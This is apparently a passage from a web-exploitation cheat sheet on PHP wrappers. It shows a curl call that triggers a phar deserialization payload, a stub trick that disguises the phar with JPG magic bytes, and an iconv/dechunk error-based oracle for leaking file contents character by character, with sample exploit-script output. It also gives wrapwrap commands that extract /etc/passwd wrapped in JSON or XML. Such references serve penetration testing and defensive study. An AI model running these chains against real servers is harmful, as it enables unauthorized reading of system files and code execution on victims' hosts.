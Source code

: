 Finally call the phar wrapper: `curl http://127.0.0.1:8001/?page=phar:///var/www/html/deser.phar`

NOTE: you can use the `$phar->setStub()` to add the magic bytes of JPG file: `\xff\xd8\xff`

```php
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
```


### Wrapper convert.iconv:// and dechunk://


#### Leak file content from error-based oracle

- `convert.iconv://`: convert input into another folder (`convert.iconv.utf-16le.utf-8`)
- `dechunk://`: if the string contains no newlines, it will wipe the entire string if and only if
the string starts with A-Fa-f0-9

The goal of this exploitation is to leak the content of a file, one character at a time, based on the [DownUnderCTF](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py) writeup.
 
**Requirements**:
- Backend must not use `file_exists` or `is_file`.
- Vulnerable parameter should be in a `POST` request. 
  - You can't leak more than 135 characters in a GET request due to the size limit

The exploit chain is based on PHP filters: `iconv` and `dechunk`:

1. Use the `iconv` filter with an encoding increasing the data size exponentially to trigger a memory error.
2. Use the `dechunk` filter to determine the first character of the file, based on the previous error.
3. Use the `iconv` filter again with encodings having different bytes ordering to swap remaining characters with the first one.


Exploit using [synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit), the script will use either the `HTTP status code: 500` or the time as an error-based oracle to determine the character.

```ps1
$ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
[*] The following URL is targeted : http://127.0.0.1
[*] The following local file is leaked : /test
[*] Running POST requests
[+] File /test leak is finished!
```

#### Leak file content inside a custom format output

* [ambionics/wrapwrap](https://github.com/ambionics/wrapwrap) - Generates a `php://filter` chain that adds a prefix and a suffix to the contents of a file.

To obtain the contents of some file, we would like to have: `{"message":"<file contents>"}`.

```ps1
./wrapwrap.py /etc/passwd 'PREFIX' 'SUFFIX' 1000
./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
```
